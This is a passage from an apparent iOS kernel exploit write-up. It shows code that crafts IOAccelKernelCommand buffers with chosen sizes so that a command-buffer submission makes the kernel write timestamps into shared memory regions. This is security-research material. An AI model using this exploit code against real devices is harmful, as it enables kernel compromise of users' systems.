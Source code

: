 ```cpp
  result = 0xE00002BDLL;
  *(_QWORD *)&a1->gap1[4] = 0;
  return result;
}
```

Back to the matter at hand: 

build `IOAccelKernelCommand` consisting of an 8-byte header (command type and size) followed by structured, type-specific data. We’ll look at composed data in more detail in step “Determine where kernel address the shared memory corresponds to”
When IOAccelCommandQueue2_submit_command_buffers is called, it will — while parsing timestamps — attempt to write values into each 0x4000-byte shared kernel memory region.

```cpp
...

    struct {
        struct IOAccelCommandQueueSubmitArgs_Header header;
        struct IOAccelCommandQueueSubmitArgs_Command command;
    } submit_args = {};
    submit_args.header.count = 1;
    submit_args.command.command_buffer_shmem_id = command_buffer_shmem->shmem_id;
    submit_args.command.segment_list_shmem_id   = segment_list_shmem->shmem_id;

    struct IOAccelSegmentListHeader *slh = (void *)segment_list_shmem->data;
    slh->length = 0x100;
    slh->segment_count = 1;
    struct IOAccelSegmentResourceListHeader *srlh = (void *)(slh + 1);
    srlh->kernel_commands_start_offset = 0;
    srlh->kernel_commands_end_offset = 0x4000;

    struct IOAccelKernelCommand_CollectTimeStamp *cmd1 = (void *)command_buffer_shmem->data;
    cmd1->command.type = 2;
    cmd1->command.size = 0x4000 - 8;
    struct IOAccelKernelCommand_CollectTimeStamp *cmd2 = (void *)((uint8_t *)cmd1 + cmd1->command.size);
    cmd2->command.type = 2;
    cmd2->command.size = 8;

#define KTRW 0

    printf("IOAccelCommandQueue2::submit_command_buffers()\n");
#if KTRW
    sleep(4);
#endif
    IOAccelCommandQueue2_submit_command_buffers(IOAccelCommandQueue2, &submit_args.header, sizeof(submit_args));
    printf("timestamp = %llx\n", cmd1->timestamp);
#if KTRW
    sleep(4);
#endif
```
